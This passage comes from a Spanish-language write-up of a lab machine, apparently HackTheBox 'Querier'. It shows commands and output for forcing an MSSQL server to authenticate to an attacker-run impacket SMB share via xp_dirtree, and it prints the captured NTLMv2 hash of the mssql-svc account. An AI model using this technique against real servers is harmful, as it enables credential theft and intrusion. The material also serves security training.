 - Lo que podemos hacer es roba el hash `NTLMv2` en el proceso de la autenticación abusando del `xp_dirtree` ya que nos permite listar recursos compartidos a nivel de red de algún servidor y nosotros desde nuestra maquina de atacante con `smbserver` vamos a crear un recurso a nivel de red para que se autentique y capturar el hash.

```bash
➜  Downloads impacket-smbserver b $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Ahora si usamos `xp_dirtree` para listar los recursos compartidos por detrás viaja la autenticación y capturaremos el hash.

```bash
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree \\10.10.15.11\smbserver
subdirectory   depth   file
------------   -----   ----
SQL (QUERIER\reporting  reporting@volume)>
```

- Capturamos el hash.

```bash
➜  Downloads impacket-smbserver b $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.67.247,49675)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:254a4df4a95e2690a16c8afd14b68f0a:01010000000000008088a8e09187da0102326448f746e93a00000000010010004d007500590056006700510047004600030010004d00750059005600670051004700460002001000530075006f0053006b006d007900540004001000530075006f0053006b006d0079005400070008008088a8e09187da0106000400020000000800300030000000000000000000000000300000b8458b27b9ac92b92824508e47e300b1dd167c58ec5b12b4846757d2eb899f100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e0031003100000000000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found smbserver
[-] SMB2_TREE_CONNECT not found smbserver
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.129.67.247,49675)
[*] Remaining connections []
```
